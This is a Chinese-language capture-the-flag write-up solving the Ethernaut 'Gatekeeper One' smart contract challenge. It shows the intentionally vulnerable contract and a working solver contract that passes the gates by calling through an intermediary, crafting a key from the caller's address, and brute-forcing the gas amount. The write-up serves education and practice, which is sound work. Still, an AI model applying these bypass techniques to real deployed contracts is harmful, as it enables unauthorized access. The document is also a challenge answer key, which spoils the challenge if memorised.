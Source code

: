 # level 13: Gatekeeper One

## 1. 问题

要求你成功调用 `GatekeeperOne` 合约的 `enter` 函数，函数成功执行，可以通过函数内的所有校验。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

## 2. 解法

函数有3个 `modifier`, 我们只要分别通过这个校验即可

### 2.1. `gateOne`

1. `gateOne` 只校验 `msg.sender != tx.origin`, 我们只要通过一个中间合约来调用 `GatekeeperOne` 合约即可通过这个校验


### 2.2. `gateThree` 
2. 我们先看 `gateThree`, 他需要入参 `_gateKey` 满足几个类型转换结果。我们用chisel做一下测试：

```solidity
// 测试一下截取情况
bytes8 _gateKey=hex"0102030405060708";
// 看下几个require语句中左边的目标值
uint32 left = uint32(uint64(_gateKey))
// 看下第一个require右边的值
uint16 right1 = uint16(uint64(_gateKey))
// 看下第二个require右边的值
uint64 right2 = uint64(_gateKey)
// 随便找一个随机的地址，看下第三个require右边的值
uint16 right3 = uint16(uint160(address(bytes20(hex"D5691358Aa1b5eBB8af26Ad0Aba3CBD74b31690a"))))
```

![](../../resources/img/level13_gatekeeperone/cut.png)

> [!NOTE]
> 通过观察上面的结果我们发现:
> * left和right1只在 `0506` 所在的2个字节处理不一样，如果想要第一个require满足，我们只要将 `_gateKey` 的这2个字节设置为0
> * left和right2在 `05060708`这四个字节处理是一样的，所以如果想要第二个require满足，也就是想要left不等于right，那么 `_gateKey` 的前4个字节不能都为0
> * right3会把原始地址的最后2个字节保留，所以如果第三个require要满足，如果想要left和right3相等，那么 `_gateKey` 的最后2个字节要和 `tx.orign`, 也就是我们的EOA地址一致

3. 我们使用的EOA地址结尾为 `fB2c`, 所以我们设置的 `_gateKey` 为 `0x010203040000fb2c`


### 2.3. `gateTwo`
4. 我们最后看`gateTwo`。 他要求 `gasleft() % 8191 == 0`。一方面我们可以通过 `GatekeeperOne.call{gas: XXX}(abi.encodeWithSignature("enter(bytes8)", YYYY))` 来设置 `enter` 函数的总 gas。

5. 因为函数的入参传递等操作也可能消耗gas，所以我们很难直接估算出一个精确的gas。所以我们直接部署一个合约，暴力尝试：

```solidity
contract GatekeeperBridge {
    GatekeeperOne private gatekeeperone;

    constructor(address _gatekeeperone) {
        gatekeeperone = GatekeeperOne(_gatekeeperone);
    }

    function myCall(bytes8 _gateKey) external {
        // console.log("mycall tx.origin: %s, msg.sender: %s", tx.origin, msg.sender);
        for (uint256 gas1 = 0; gas1 < 8000; gas1++) {
            try gatekeeperone.enter{gas: 8191*3 + gas1}(_gateKey) {
                // console.log("target gas: %s", gas1);
                break;
            } catch (bytes memory reason) {
                // console.log("revert reason: %s", string(reason));
                continue;
            }
        }
    }
}
```

6. 注意这个可能会消耗很多的gas。因为只有尝试到正确的 `gas1` 的值才会停止。所以我们写一个单测 [Level13_localTest.t.sol](../../test/level13/Level13_localTest.t.sol) 估算一下 `gas1` 的范围，得到相对靠谱的：

```bash
forge test -vv --match-contract Level13Test
```

![](../../resources/img/level13_gatekeeperone/script1.png)

7. 所以我们可以优化这个循环，改成从200开始： `for (uint256 gas1 = 200; gas1 < 300; gas1++) {`

8. 在 remix 中编译并且部署这个合约， 交易地址 [0xa3e3acda2f88615813af82ac8165b256741525046376a01078b19651d80a34c9](https://sepolia.etherscan.io/tx/0xa3e3acda2f88615813af82ac8165b256741525046376a01078b19651d80a34c9)

9. 在 remix 中调用 `myCall` 接口，触发执行，交易地址 [0x777fe22d3cc7113abd962b6e069c970399f72b2a7ee24b2bdd5debcc623dc075](https://sepolia.etherscan.io/tx/0x777fe22d3cc7113abd962b6e069c970399f72b2a7ee24b2bdd5debcc623dc075)

10. 点击 `submit instance`， 提交通过！

| [⬅️ level12 Privacy](../level12_privacy/README.md) | [level14 Gatekeeper Two ➡️](../level14_gatekeeper_two/README.md) |
|:------------------------------|--------------------------:|